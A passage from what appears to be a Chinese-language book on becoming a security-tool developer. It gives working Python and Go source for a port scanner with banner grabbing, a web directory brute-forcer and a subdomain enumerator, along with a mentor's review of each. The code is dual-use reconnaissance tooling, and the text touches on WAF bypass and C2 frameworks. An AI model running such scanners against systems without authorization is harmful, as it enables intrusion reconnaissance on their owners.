 对于网络密集型的任务，多线程就够了。"
```

于是，我重写了端口扫描器，这次用多线程：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
多线程端口扫描器 v1.0
作者：阿杰
功能：扫描指定IP的指定端口范围，支持多线程
用法：python port_scanner.py -t 1.2.3.4 -p 1-1000 -w 100
"""

import socket
import threading
import argparse
import time
from queue import Queue
from datetime import datetime

# 全局变量
open_ports = []
lock = threading.Lock()

def scan_port(ip, port, timeout=1):
    """扫描单个端口"""
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        result = s.connect_ex((ip, port))
        if result == 0:
            # 尝试获取Banner信息
            try:
                s.send(b'HEAD / HTTP/1.0\r\n\r\n')
                banner = s.recv(1024).decode('utf-8', errors='ignore').strip()
                banner = banner.split('\n')[0] if banner else 'unknown'
            except:
                banner = 'unknown'

            with lock:
                open_ports.append((port, banner))
                print(f"[+] {ip}:{port} OPEN - {banner}")
        s.close()
    except Exception:
        pass

def worker(ip, port_queue, timeout):
    """工作线程：从队列取端口，扫描"""
    while not port_queue.empty():
        port = port_queue.get()
        scan_port(ip, port, timeout)
        port_queue.task_done()

def main():
    parser = argparse.ArgumentParser(description='多线程端口扫描器')
    parser.add_argument('-t', '--target', required=True, help='目标IP')
    parser.add_argument('-p', '--ports', default='1-1000',
                        help='端口范围，例如 1-1000 或 80,443,8080')
    parser.add_argument('-w', '--workers', type=int, default=100,
                        help='线程数，默认100')
    parser.add_argument('-T', '--timeout', type=float, default=1,
                        help='超时时间，默认1秒')
    parser.add_argument('-o', '--output', help='输出文件')

    args = parser.parse_args()

    # 解析端口范围
    port_queue = Queue()
    if '-' in args.ports:
        start, end = map(int, args.ports.split('-'))
        ports = range(start, end + 1)
    else:
        ports = [int(p) for p in args.ports.split(',')]

    for port in ports:
        port_queue.put(port)

    total_ports = port_queue.qsize()
    print(f"[*] 开始扫描 {args.target}")
    print(f"[*] 端口范围：{args.ports}（共{total_ports}个端口）")
    print(f"[*] 线程数：{args.workers}")
    print(f"[*] 开始时间：{datetime.now().strftime('%Y-%m-%d %H:%M:%S')}")
    print("-" * 60)

    start_time = time.time()

    # 启动工作线程
    threads = []
    for _ in range(args.workers):
        t = threading.Thread(target=worker,
                            args=(args.target, port_queue, args.timeout))
        t.daemon = True
        t.start()
        threads.append(t)

    # 等待所有端口扫描完成
    port_queue.join()

    elapsed = time.time() - start_time
    print("-" * 60)
    print(f"[*] 扫描完成，耗时：{elapsed:.2f}秒")
    print(f"[*] 共发现 {len(open_ports)} 个开放端口")

    # 保存结果
    if args.output:
        with open(args.output, 'w', encoding='utf-8') as f:
            f.write(f"# 扫描时间：{datetime.now()}\n")
            f.write(f"# 目标：{args.target}\n")
            f.write(f"# 耗时：{elapsed:.2f}秒\n\n")
            for port, banner in sorted(open_ports):
                f.write(f"{port}\t{banner}\n")
        print(f"[*] 结果已保存到 {args.output}")

if __name__ == '__main__':
    main()
```

```
🎉 这个版本相比v0.1的进步：

1. 多线程：默认100线程，扫描速度提升100倍
2. 命令行参数：用argparse，支持-t、-p、-w、-o等参数
3. Banner识别：尝试获取服务Banner信息
4. 队列管理：用Queue管理待扫描端口，线程安全
5. 锁机制：用Lock保护全局变量open_ports
6. 结果保存：支持输出到文件
7. 耗时统计：显示扫描耗时
8. 错误处理：网络异常不会导致崩溃

测试结果：
- 扫描1-1000端口，100线程，1秒超时
- 单线程：约1000秒
- 多线程：约10秒
- 提速100倍！
```

我把这个工具发给老吴看，老吴回复：

```
👨‍💼 老吴：
"嗯，比v0.1好多了。
 基本的功能都有了。
 但是还有几个问题：
 1. 多线程用threading，效率其实不高，因为GIL的存在
    真要追求性能，得用协程（asyncio）或者多进程
    不过多线程对于网络IO密集型，够用了
 2. Banner识别太简陋，可以做得更完善
    比如根据端口猜服务，根据Banner匹配指纹
 3. 没有做速率限制，如果线程太多，可能把目标打崩
    或者被防火墙ban掉
 4. 没有做重试机制，网络抖动会导致漏报
 5. 输出格式可以更友好，比如支持JSON、CSV

 不过作为学习项目，已经很OK了。
 继续加油，多写多练。"
```

老吴的反馈让我受益匪浅。

原来一个简单的端口扫描器，还有这么多门道。

> 💡 **Python的GIL是什么？**
> GIL全称是Global Interpreter Lock（全局解释器锁）。
> Python的多线程，由于GIL的存在，同一时刻只有一个线程在执行Python字节码。
> 所以Python的多线程，对于CPU密集型任务，是"假多线程"，没有性能提升。
> 但是对于IO密集型任务（比如网络请求、文件读写），多线程是有效的，
> 因为IO操作会释放GIL，其他线程可以执行。
>
> 端口扫描是IO密集型（等待网络响应），所以多线程有用。
> 但如果追求极致性能，Go语言的协程（goroutine）会更香。

### 3.4 第二个工具：目录爆破工具

学Python第二个月底，我又写了第二个工具：目录爆破工具。

灵感来自dirsearch，但是我用自己的方式实现了一遍。

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
目录爆破工具 v1.0
作者：阿杰
功能：爆破Web目录和文件
用法：python dir_bruter.py -u http://example.com -w wordlist.txt
"""

import argparse
import threading
import queue
import requests
from urllib.parse import urljoin
from datetime import datetime
import time

class DirBruter:
    def __init__(self, url, wordlist, threads=20, timeout=10):
        self.url = url.rstrip('/')
        self.threads = threads
        self.timeout = timeout
        self.word_queue = queue.Queue()
        self.results = []
        self.lock = threading.Lock()
        self.scanned = 0
        self.total = 0

        # 加载字典
        self._load_wordlist(wordlist)

        # 常见的状态码处理
        self.status_handlers = {
            200: self._handle_found,
            301: self._handle_redirect,
            302: self._handle_redirect,
            401: self._handle_auth,
            403: self._handle_forbidden,
            500: self._handle_error,
        }

        # 常见的文件后缀
        self.extensions = ['', '.php', '.html', '.htm', '.asp', '.aspx',
                          '.jsp', '.js', '.txt', '.bak', '.zip', '.tar.gz']

    def _load_wordlist(self, wordlist):
        """加载字典文件"""
        try:
            with open(wordlist, 'r', encoding='utf-8', errors='ignore') as f:
                for line in f:
                    word = line.strip()
                    if word and not word.startswith('#'):
                        self.word_queue.put(word)
            self.total = self.word_queue.qsize()
            print(f"[*] 加载字典：{self.total} 条")
        except FileNotFoundError:
            print(f"[!] 字典文件不存在：{wordlist}")
            exit(1)

    def _handle_found(self, path, response):
        print(f"[+] {response.status_code} - {path} - {len(response.content)} bytes")

    def _handle_redirect(self, path, response):
        location = response.headers.get('Location', '')
        print(f"[+] {response.status_code} - {path} -> {location}")

    def _handle_auth(self, path, response):
        print(f"[+] {response.status_code} - {path} (需要认证)")

    def _handle_forbidden(self, path, response):
        print(f"[*] {response.status_code} - {path} (禁止访问，可能存在)")

    def _handle_error(self, path, response):
        print(f"[!] {response.status_code} - {path} (服务器错误)")

    def _scan_one(self, path):
        """扫描一个路径"""
        for ext in self.extensions:
            full_path = path + ext
            url = urljoin(self.url + '/', full_path)

            try:
                response = requests.get(url, timeout=self.timeout,
                                       allow_redirects=False,
                                       headers={'User-Agent': 'Mozilla/5.0'})

                handler = self.status_handlers.get(response.status_code)
                if handler:
                    with self.lock:
                        handler(url, response)
                        self.results.append((response.status_code, url))

            except requests.RequestException:
                pass

            with self.lock:
                self.scanned += 1

    def _worker(self):
        """工作线程"""
        while not self.word_queue.empty():
            path = self.word_queue.get()
            self._scan_one(path)
            self.word_queue.task_done()

    def run(self):
        """启动爆破"""
        print(f"[*] 目标：{self.url}")
        print(f"[*] 线程数：{self.threads}")
        print(f"[*] 开始时间：{datetime.now()}")
        print("-" * 60)

        start_time = time.time()

        # 启动线程
        threads = []
        for _ in range(self.threads):
            t = threading.Thread(target=self._worker)
            t.daemon = True
            t.start()
            threads.append(t)

        # 等待完成
        self.word_queue.join()

        elapsed = time.time() - start_time
        print("-" * 60)
        print(f"[*] 扫描完成，耗时：{elapsed:.2f}秒")
        print(f"[*] 共扫描 {self.scanned} 个请求")
        print(f"[*] 发现 {len(self.results)} 个有效结果")

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='目录爆破工具')
    parser.add_argument('-u', '--url', required=True, help='目标URL')
    parser.add_argument('-w', '--wordlist', required=True, help='字典文件')
    parser.add_argument('-t', '--threads', type=int, default=20, help='线程数')
    parser.add_argument('-T', '--timeout', type=int, default=10, help='超时时间')

    args = parser.parse_args()

    bruter = DirBruter(args.url, args.wordlist, args.threads, args.timeout)
    bruter.run()
```

```
🤔 这个工具的优缺点：

【优点】
1. 面向对象设计：用类封装，比v0.1的端口扫描器更"工程化"
2. 多后缀尝试：自动尝试.php、.html、.bak等后缀
3. 状态码分类处理：200/301/401/403/500分别处理
4. 线程安全：用Lock保护共享数据

【缺点】
1. 速度慢：Python的requests库，单次请求开销大
2. 没有递归爆破：发现/admin后，应该继续爆/admin/下的目录
3. 没有过滤误报：403可能是误报，需要进一步判断
4. 字典处理简单：不支持字典的变形、组合
5. 没有结果去重：同一个URL可能被多次记录
6. 没有WAF绕过：遇到WAF会被ban，没有应对措施
```

我把这个工具也发给老吴看，老吴的回复让我很受用：

```
👨‍💼 老吴：
"嗯，开始有'工程化'的味道了。
 用类封装，比函数式好维护。
 状态码分类处理，思路对的。

 不过我建议你：
 1. 字典处理可以更灵活
    - 支持多个字典合并
    - 支持字典变形（比如admin -> Admin, ADMIN, admin1, admin123）
    - 支持基于目标的定制字典

 2. 性能优化
    - 用requests.Session()复用连接
    - 考虑用协程（aiohttp）替代多线程
    - Python的多线程做这种事，效率真的不行

 3. 功能扩展
    - 加递归爆破
    - 加WAF检测和绕过
    - 加代理支持
    - 加结果导出（JSON、CSV、HTML报告）

 你可以参考dirsearch和ffuf的源码，看看人家是怎么设计的。
 读优秀的开源代码，是提升最快的途径。"
```

> 💡 **老吴的建议，我总结一下：**
> 1. 字典处理要灵活（多字典、变形、定制）
> 2. 性能优化（Session复用、协程）
> 3. 功能扩展（递归、WAF绕过、代理、报告）
> 4. 读优秀的开源代码，学习设计思路

### 3.5 第三个工具：子域名收集工具

学Python第三个月，我写了第三个工具：子域名收集工具。

这个工具的灵感来自subfinder，但是我自己实现了一遍。

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
子域名收集工具 v1.0
作者：阿杰
功能：通过多种方式收集子域名
用法：python subdomain_collector.py -d example.com
"""

import argparse
import requests
import threading
import queue
import socket
import json
import re
import dns.resolver
from urllib.parse import urlparse
from datetime import datetime
import time

class SubdomainCollector:
    def __init__(self, domain, threads=20, timeout=10):
        self.domain = domain
        self.threads = threads
        self.timeout = timeout
        self.subdomains = set()
        self.lock = threading.Lock()

        # 数据源
        self.passive_sources = [
            self._from_crtsh,
            self._from_hackertarget,
            self._from_rapiddns,
            self._from_censys,
            self._from_alienvault,
        ]

        # 字典（用于主动爆破）
        self.brute_dict = self._load_default_dict()

    def _load_default_dict(self):
        """默认的子域名字典（精简版）"""
        return ['www', 'mail', 'ftp', 'localhost', 'webmail', 'smtp', 'pop', 'ns',
                'webdisk', 'whm', 'cpanel', 'staging', 'dev', 'test', 'api',
                'vpn', 'm', 'admin', 'portal', 'blog', 'shop', 'store',
                'app', 'mobile', 'cdn', 'cloud', 'git', 'svn', 'jenkins',
                'jira', 'wiki', 'docs', 'help', 'support', 'status',
                'auth', 'sso', 'oauth', 'account', 'user', 'profile',
                'dashboard', 'panel', 'manage', 'manager', 'system',
                'oa', 'crm', 'erp', 'hr', 'finance', 'report',
                'backup', 'db', 'database', 'cache', 'queue', 'mq',
                'log', 'logs', 'monitor', 'metrics', 'grafana',
                'prometheus', 'kibana', 'elastic', 'es', 'redis',
                'mysql', 'postgres', 'mongo', 'zookeeper', 'kafka']

    def _from_crtsh(self):
        """从crt.sh证书透明度日志获取子域名"""
        try:
            url = f"https://crt.sh/?q=%.{self.domain}&output=json"
            response = requests.get(url, timeout=self.timeout)
            if response.status_code == 200:
                data = response.json()
                for item in data:
                    name = item.get('name_value', '')
                    for n in name.split('\n'):
                        n = n.strip().lower()
                        if n.endswith(self.domain):
                            with self.lock:
                                self.subdomains.add(n)
        except Exception as e:
            pass

    def _from_hackertarget(self):
        """从hackertarget获取子域名"""
        try:
            url = f"https://api.hackertarget.com/hostsearch/?q={self.domain}"
            response = requests.get(url, timeout=self.timeout)
            if response.status_code == 200 and 'error' not in response.text.lower():
                for line in response.text.split('\n'):
                    if ',' in line:
                        subdomain = line.split(',')[0].strip().lower()
                        if subdomain.endswith(self.domain):
                            with self.lock:
                                self.subdomains.add(subdomain)
        except Exception:
            pass

    def _from_rapiddns(self):
        """从rapiddns获取子域名"""
        try:
            url = f"https://rapiddns.io/subdomain/{self.domain}?full=1"
            response = requests.get(url, timeout=self.timeout)
            if response.status_code == 200:
                pattern = r'([a-zA-Z0-9\-\.]+\.' + re.escape(self.domain) + r')'
                matches = re.findall(pattern, response.text)
                for m in matches:
                    with self.lock:
                        self.subdomains.add(m.lower())
        except Exception:
            pass

    def _from_censys(self):
        """从censys获取子域名（需要API key，这里只是示例）"""
        # 实际使用需要注册censys账号，获取API ID和Secret
        pass

    def _from_alienvault(self):
        """从AlienVault OTX获取子域名"""
        try:
            url = f"https://otx.alienvault.com/api/v1/indicators/domain/{self.domain}/passive_dns"
            response = requests.get(url, timeout=self.timeout)
            if response.status_code == 200:
                data = response.json()
                for item in data.get('passive_dns', []):
                    hostname = item.get('hostname', '').lower()
                    if hostname.endswith(self.domain):
                        with self.lock:
                            self.subdomains.add(hostname)
        except Exception:
            pass

    def _brute_subdomain(self, sub_queue, resolver):
        """暴力破解子域名"""
        while not sub_queue.empty():
            prefix = sub_queue.get()
            subdomain = f"{prefix}.{self.domain}"

            try:
                answers = resolver.resolve(subdomain, 'A')
                if answers:
                    with self.lock:
                        self.subdomains.add(subdomain)
            except Exception:
                pass

            sub_queue.task_done()

    def passive_collect(self):
        """被动收集"""
        print("[*] 开始被动收集...")

        threads = []
        for source in self.passive_sources:
            t = threading.Thread(target=source)
            t.daemon = True
            t.start()
            threads.append(t)

        for t in threads:
            t.join(timeout=30)

        print(f"[+] 被动收集完成：{len(self.subdomains)} 个子域名")

    def active_brute(self):
        """主动爆破"""
        print(f"[*] 开始主动爆破（字典：{len(self.brute_dict)} 条）...")

        sub_queue = queue.Queue()
        for prefix in self.brute_dict:
            sub_queue.put(prefix)

        # 配置DNS解析器
        resolver = dns.resolver.Resolver()
        resolver.nameservers = ['8.8.8.8', '1.1.1.1', '223.5.5.5']
        resolver.timeout = 2
        resolver.lifetime = 2

        threads = []
        for _ in range(self.threads):
            t = threading.Thread(target=self._brute_subdomain,
                                args=(sub_queue, resolver))
            t.daemon = True
            t.start()
            threads.append(t)

        sub_queue.join()
        print(f"[+] 主动爆破完成")

    def resolve_all(self):
        """解析所有子域名的IP"""
        print("[*] 解析IP...")
        results = []
        for sub in sorted(self.subdomains):
            try:
                ips = socket.gethostbyname_ex(sub)
                ip_list = ips[2]
                results.append({'subdomain': sub, 'ips': ip_list})
                print(f"  {sub} -> {', '.join(ip_list)}")
            except socket.gaierror:
                results.append({'subdomain': sub, 'ips': []})

        return results

    def run(self):
        """运行完整的收集流程"""
        print(f"[*] 目标域名：{self.domain}")
        print(f"[*] 开始时间：{datetime.now()}")
        print("-" * 60)

        start_time = time.time()

        # 1. 被动收集
        self.passive_collect()

        # 2. 主动爆破
        self.active_brute()

        # 3. 解析IP
        resolved = self.resolve_all()

        elapsed = time.time() - start_time
        print("-" * 60)
        print(f"[*] 收集完成，耗时：{elapsed:.2f}秒")
        print(f"[*] 共发现 {len(self.subdomains)} 个子域名")

        return resolved

if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='子域名收集工具')
    parser.add_argument('-d', '--domain', required=True, help='目标域名')
    parser.add_argument('-t', '--threads', type=int, default=20, help='线程数')
    parser.add_argument('-o', '--output', help='输出文件（JSON格式）')

    args = parser.parse_args()

    collector = SubdomainCollector(args.domain, args.threads)
    results = collector.run()

    if args.output:
        with open(args.output, 'w', encoding='utf-8') as f:
            json.dump(results, f, ensure_ascii=False, indent=2)
        print(f"[*] 结果已保存到 {args.output}")
```

```
🎯 这个工具的特点：

【功能】
1. 被动收集：5个数据源（crt.sh、hackertarget、rapiddns、censys、alienvault）
2. 主动爆破：内置常用子域名字典（约80个）
3. IP解析：解析所有子域名的IP地址
4. 多线程：被动收集和主动爆破都支持多线程
5. 结果导出：支持JSON格式

【设计思路】
1. 被动收集为主（不直接连目标，不会被发现）
2. 主动爆破为辅（补充被动收集的遗漏）
3. 多数据源融合（提高覆盖率）
4. DNS解析验证（确认子域名是否存活）
```

> 💡 **关于子域名收集，多说几句：**
> 子域名收集是信息收集的重中之重。
> 一个子域名就是一个潜在的攻击面。
> 收集子域名的方法很多：
> 1. **被动收集**：从第三方数据源获取（crt.sh、FOFA、Shodan、Censys...）
> 2. **主动爆破**：用字典暴力破解（dnsgen + massdns）
> 3. **证书透明度日志**：查SSL证书记录（crt.sh）
> 4. **搜索引擎**：Google Hacking、百度
> 5. **代码平台**：GitHub、Gitee搜泄露的配置
> 6. **网络空间搜索引擎**：FOFA、钟馗之眼、Quake
>
> 详细方法见第12章：信息收集。

### 3.6 学Python的总结

学了三个月Python，我写了三个工具：端口扫描器、目录爆破、子域名收集。

虽然每个工具都有很多不足，但是这个过程让我学到了很多：

```
📚 学Python三个月的收获：

【编程基础】
- Python基础语法：变量、流程控制、函数、类
- 数据结构：列表、字典、集合、队列
- 面向对象：类、继承、封装
- 异常处理：try/except/finally
- 文件操作：读写文件
- 模块和包：import、pip install

【网络编程】
- socket编程：TCP/UDP
- requests库：HTTP请求
- dns库：DNS解析

【并发编程】
- threading：多线程
- queue.Queue：线程安全的队列
- threading.Lock：锁

【工程化】
- argparse：命令行参数解析
- 面向对象设计：类封装
- 代码注释和文档
- 版本管理（git）

【安全工具开发思维】
- 工具的"用户视角" → "开发者视角"
- 不仅要知道"怎么用"，还要知道"怎么实现"
- 工具的设计：功能、性能、易用性、可扩展性
- 读优秀的开源代码，学习设计思路
```

但是，我也意识到Python的局限性：

```
⚠️ Python做安全工具的局限：

1. 性能瓶颈
   - GIL限制多线程性能
   - 解释执行，速度比编译型语言慢
   - 对于CPU密集型任务（加密、哈希、扫描大文件），性能不够

2. 部署不便
   - 目标机器上要有Python环境
   - 依赖管理麻烦（pip install一堆库）
   - 打包成exe/linux binary，体积大，可能有兼容问题

3. 一些场景不适合
   - 写C2、写后门、写内核驱动：Python不行
   - 写免杀工具、Shellcode加载器：Python不行
   - 写高性能的扫描器（masscan级别）：Python不行

4. 老吴的建议
   - "Python适合写小工具、脚本、POC"
   - "要做真正的安全工具，得学Go"
   - "Go的性能好，编译成单文件，部署方便"
   - "Go在安全工具开发领域，正在取代Python"
```

> 🤔 **Python vs Go，安全工具开发选哪个？**
> 这个问题没有标准答案，看场景：
>
> **Python适合：**
> - 快速开发的小工具、脚本
> - POC、EXP验证
> - 数据处理、爬虫
> - 自动化任务
> - 原型开发
>
> **Go适合：**
> - 高性能的扫描器（端口扫描、目录爆破）
> - C2框架、后门
> - 跨平台部署的工具
> - 需要并发处理的大量任务
> - 长期维护的项目
>
> **结论：两个都要学。**
> Python入门快，先学Python；Go是进阶，Python熟练后再学。

---

## 🐹 从Python到Go：性能的诱惑

### 4.1 为什么学Go？

学完Python三个月，我已经能写一些小工具了。

但是我发现，Python写的工具，性能确实不行。

比如我那个多线程端口扫描器，扫65535个端口，要花好几分钟。而Nmap只要几十秒，masscan只要几秒。

```
📊 性能对比（扫描65535个端口）：

- 我的Python扫描器（100线程）：约300秒
- Nmap（默认参数）：约30秒
- masscan（10000速率）：约7秒
- rustscan：约10秒

差距：10-40倍！
```

差距太大了。

我跟老吴吐槽：

```
👨‍💻 我：吴哥，我这Python扫描器，比masscan慢了40倍，太离谱了。

👨‍💼 老吴：正常。Python就这样，性能瓶颈在GIL。
   你想快，得用协程，或者用多进程。
   但即使是这样，Python的天花板也就那样。
   真要追求性能，得用Go或者Rust。

👨‍💻 我：Go和Rust，哪个更好学？

👨‍💼 老吴：Go好学。Rust太难，学习曲线陡峭。
   Go的语法简单，跟Python差不多容易入门。
   而且Go在安全工具开发领域，应用非常广泛。
   你看ProjectDiscovery家的工具（nuclei、httpx、naabu、subfinder），
   全是Go写的。
   Go是安全工具开发的"新宠"。

👨‍💻 我：那我学Go。

👨‍💼 老吴：好。学Go，我给你几个建议：
   1. 先学语法：Go的语法比Python严格，但有C的基础会更容易
   2. 学goroutine和channel：这是Go的精髓，并发编程
   3. 学标准库：net、net/http、encoding/json、sync...
   4. 学第三方库：跟Python的pip类似，Go用go get
   5. 多读优秀的Go安全工具源码：nuclei、subfinder、naabu...
   6. 把你之前用Python写的工具，用Go重写一遍
      这是最好的学习方式：对比着学，理解更深
```

> 💡 **为什么Go在安全工具开发领域这么火？**
> 1. **性能好**：编译型语言，接近C的性能
> 2. **并发强**：goroutine + channel，天生支持高并发
> 3. **部署方便**：编译成单文件，无依赖，跨平台
> 4. **语法简单**：比C/C++/Rust都简单
> 5. **标准库强大**：net、net/http等标准库很完善
> 6. **生态成熟**：ProjectDiscovery等团队出了大量优秀工具
> 7. **适合做C2/后门**：跨平台编译，体积小
>
> 所以，现在主流的安全工具，越来越多用Go写了：
> - nuclei（漏洞扫描）
> - subfinder（子域名收集）
> - naabu（端口扫描）
> - httpx（HTTP探测）
> - katana（爬虫）
> - gobuster（目录爆破）
> - frp（内网穿透）
> - chisel（隧道）
> - sliver（C2框架）
> - Mythic（C2框架）
> - ...

### 4.2 学Go：从语法开始

学Go比学Python顺利一些，因为我已经有Python的基础了。

Go的语法跟C有点像（虽然我没怎么学过C），但比C简单。

```
📅 Go学习计划：

【第1个月：Go基础】
- 语法基础：变量、类型、流程控制、函数
- 数据结构：数组、切片、map、struct
- 面向对象：Go没有class，用struct + 方法
- 接口：interface
- 错误处理：error（没有try/catch）
- 并发：goroutine、channel、sync包
- 标准库：net、net/http、encoding/json、flag、os、io

【第2个月：Go进阶】
- 第三方库：go get、go mod
- HTTP客户端：net/http、fasthttp
- 并发模式：worker pool、fan-in/fan-out
- 性能优化：pprof、benchmark
- 跨平台编译：GOOS、GOARCH

【第3个月：安全工具开发】
- 用Go重写之前的Python工具
- 学习ProjectDiscovery的工具源码
- 开发自己的第一个Go安全工具（开源）
```

Go的基础语法，我大概一周就搞明白了。

来，我给你看一个我学Go第一周的"作品"——用Go重写的端口扫描器：

```go
// port_scanner.go
// 多线程端口扫描器 v1.0 (Go版本)
// 作者：阿杰
package main

import (
	"flag"
	"fmt"
	"net"
	"strconv"
	"strings"
	"sync"
	"time"
)

func scanPort(ip string, port int, timeout time.Duration, results chan<- int) {
	address := fmt.Sprintf("%s:%d", ip, port)
	conn, err := net.DialTimeout("tcp", address, timeout)
	if err == nil {
		conn.Close()
		results <- port
	} else {
		results <- -1
	}
}

func main() {
	target := flag.String("t", "", "目标IP")
	ports := flag.String("p", "1-1000", "端口范围，例如 1-1000 或 80,443,8080")
	workers := flag.Int("w", 500, "并发数")
	timeoutSec := flag.Int("T", 2, "超时时间（秒）")
	flag.Parse()

	if *target == "" {
		fmt.Println("请指定目标IP：-t <ip>")
		return
	}

	// 解析端口范围
	var portList []int
	if strings.Contains(*ports, "-") {
		parts := strings.Split(*ports, "-")
		start, _ := strconv.Atoi(parts[0])
		end, _ := strconv.Atoi(parts[1])
		for i := start; i <= end; i++ {
			portList = append(portList, i)
		}
	} else {
		for _, p := range strings.Split(*ports, ",") {
			port, _ := strconv.Atoi(strings.TrimSpace(p))
			portList = append(portList, port)
		}
	}

	totalPorts := len(portList)
	timeout := time.Duration(*timeoutSec) * time.Second

	fmt.Printf("[*] 开始扫描 %s\n", *target)
	fmt.Printf("[*] 端口范围：%s（共%d个端口）\n", *ports, totalPorts)
	fmt.Printf("[*] 并发数：%d\n", *workers)
	fmt.Printf("[*] 开始时间：%s\n", time.Now().Format("2006-01-02 15:04:05"))
	fmt.Println(strings.Repeat("-", 60))

	startTime := time.Now()

	// 用channel控制并发
	portChan := make(chan int, *workers)
	results := make(chan int, *workers)
	var wg sync.WaitGroup

	// 启动worker
	for i := 0; i < *workers; i++ {
		wg.Add(1)
		go func() {
			defer wg.Done()
			for port := range portChan {
				scanPort(*target, port, timeout, results)
			}
		}()
	}

	// 发送端口
	go func() {
		for _, port := range portList {
			portChan <- port
		}
		close(portChan)
	}()

	// 收集结果
	go func() {
		wg.Wait()
		close(results)
	}()

	// 输出结果
	var openPorts []int
	for port := range results {
		if port > 0 {
			openPorts = append(openPorts, port)
			fmt.Printf("[+] %s:%d OPEN\n", *target, port)
		}
	}

	elapsed := time.Since(startTime)
	fmt.Println(strings.Repeat("-", 60))
	fmt.Printf("[*] 扫描完成，耗时：%s\n", elapsed)
	fmt.Printf("[*] 共发现 %d 个开放端口\n", len(openPorts))
}
```

```
🎉 Go版本 vs Python版本的对比：

【代码量】
- Python版（多线程）：约120行
- Go版：约90行
- Go更简洁

【性能】（扫描1-1000端口，500并发，2秒超时）
- Python版（100线程）：约10秒
- Go版（500 goroutine）：约2秒
- Go快5倍

【资源占用】
- Python版：内存约30MB，100个线程
- Go版：内存约10MB，500个goroutine
- Go资源占用更少

【部署】
- Python版：目标机器要有Python + 依赖库
- Go版：编译成单文件，无依赖，直接运行
- Go部署更方便

【编译】
- Python版：无需编译，直接运行
- Go版：go build，编译成可执行文件
- Go可以跨平台编译（Windows上编译Linux版本）
```

我把Go版本的扫描器发给老吴看，老吴这次表扬了我：

```
👨‍💼 老吴：
"不错！Go学得挺快。
 你已经掌握了Go的精髓：goroutine + channel。
 这就是Go的并发模型，比Python的多线程强多了。

 几个建议：
 1. 用channel控制并发，你这个写法是对的
    但可以更优雅，用worker pool模式
 2. 错误处理可以更细致，net.DialTimeout的错误
    可以区分'连接被拒绝'和'连接超时'
 3. 可以加上Banner识别
    用net.Conn.Read()读取返回的Banner
 4. 可以加上context，支持超时取消
 5. 用sync.WaitGroup等待所有goroutine完成，你这个写法OK

 继续，把目录爆破和子域名收集也用Go重写一遍。
 然后我们聊聊'真正的项目'。"
```

### 4.3 用Go重写工具

接下来的一个月，我把之前用Python写的工具，全部用Go重写了一遍。

```
📊 Go重写工具对比：

【端口扫描器】
- Python版：100线程，扫1000端口，10秒
- Go版：500 goroutine，扫1000端口，2秒
- 提速：5倍

【目录爆破工具】
- Python版：20线程，1万字典，5分钟
- Go版：100 goroutine，1万字典，30秒
- 提速：10倍

【子域名收集工具】
- Python版：被动+主动，约2分钟
- Go版：被动+主动，约40秒
- 提速：3倍（瓶颈在数据源的响应速度）
```

重写的过程中，我深入学习了Go的很多特性：

```go
// Go的核心特性学习笔记

// 1. goroutine（轻量级线程）
go func() {
    // 这个函数会在新的goroutine里执行
    fmt.Println("Hello from goroutine")
}()

// 2. channel（通道，用于goroutine间通信）
ch := make(chan int, 100) // 带缓冲的channel
ch <- 42                  // 发送
value := <-ch             // 接收

// 3. select（多路复用）
select {
case msg := <-msgCh:
    fmt.Println("收到消息:", msg)
case <-time.After(time.Second):
    fmt.Println("超时")
}

// 4. sync.WaitGroup（等待一组goroutine完成）
var wg sync.WaitGroup
for i := 0; i < 10; i++ {
    wg.Add(1)
    go func(i int) {
        defer wg.Done()
        // do something
    }(i)
}
wg.Wait()

// 5. context（上下文，用于控制超时和取消）
ctx, cancel := context.WithTimeout(context.Background(), 10*time.Second)
defer cancel()
go func(ctx context.Context) {
    <-ctx.Done()
    fmt.Println("被取消或超时")
}(ctx)

// 6. interface（接口）
type Scanner interface {
    Scan(target string) ([]Result, error)
}

// 7. 错误处理
result, err := someFunc()
if err != nil {
    return err
}

// 8. 并发模式：worker pool
func workerPool(jobs <-chan Job, results chan<- Result, workers int) {
    var wg sync.WaitGroup
    for i := 0; i < workers; i++ {
        wg.Add(1)
        go func() {
            defer wg.Done()
            for job := range jobs {
                results <- processJob(job)
            }
        }()
    }
    wg.Wait()
    close(results)
}
```

学Go的过程中，我也开始读优秀的开源Go安全工具源码。

```
📖 我读过的开源Go安全工具源码：

1. naabu（ProjectDiscovery的端口扫描器）
   - 学到了：并发扫描、速率限制、SYN扫描
   - github.com/projectdiscovery/naabu

2. httpx（ProjectDiscovery的HTTP探测工具）
   - 学到了：HTTP探测、指纹识别、JSON输出
   - github.com/projectdiscovery/httpx

3. gobuster（目录爆破工具）
   - 学到了：目录爆破、子域名爆破、模式设计
   - github.com/OJ/gobuster

4. subfinder（ProjectDiscovery的子域名收集）
   - 学到了：多数据源、被动收集、agent设计
   - github.com/projectdiscovery/subfinder

5. katana（ProjectDiscovery的爬虫）
   - 学到了：爬虫框架、JS解析、headless浏览器
   - github.com/projectdiscovery/katana

读这些源码，让我学到了很多：
- 工具的整体架构设计
- 并发模式的最佳实践
- 错误处理和日志
- 配置管理
- 输出格式
- 模块化设计
```

> 💡 **读源码的方法：**
> 1. 先读README，了解工具的功能和用法
> 2. 从main函数开始，理清整体流程
> 3. 关注核心模块，理解关键算法
> 4. 看测试代码，理解每个函数的输入输出
> 5. 自己动手改一改，加个功能，测一测
> 6. 遇到不懂的，查文档、问Google、问AI
>
> 读源码是提升最快的途径，比看任何教程都有效。

---

## 🌟 第一个开源工具：意外走红

### 5.1 工具的诞生

学Go三个月后，我有了第一个"像样"的作品：一个轻量级端口扫描器。

这个扫描器跟naabu比起来还差得远，但是它有自己的特色：

```
🎯 我这个端口扫描器的特色：

1. 轻量级
   - 单文件，编译后只有几MB
   - 无依赖，直接运行
   - 适合在渗透测试中快速使用

2. 高性能
   - 基于goroutine + channel的并发模型
   - 支持SYN扫描（需要root）和CONNECT扫描
   - 速率限制可配置

3. 功能实用
   - 端口扫描
   - Banner识别
   - 服务指纹识别（基于端口+Banner）
   - JSON/CSV/TXT输出
   - 支持CIDR（扫描整个网段）
   - 支持从文件读取目标列表

4. 易用性
   - 命令行参数清晰
   - 支持配置文件
   - 彩色输出
   - 进度显示

5. 国产化适配
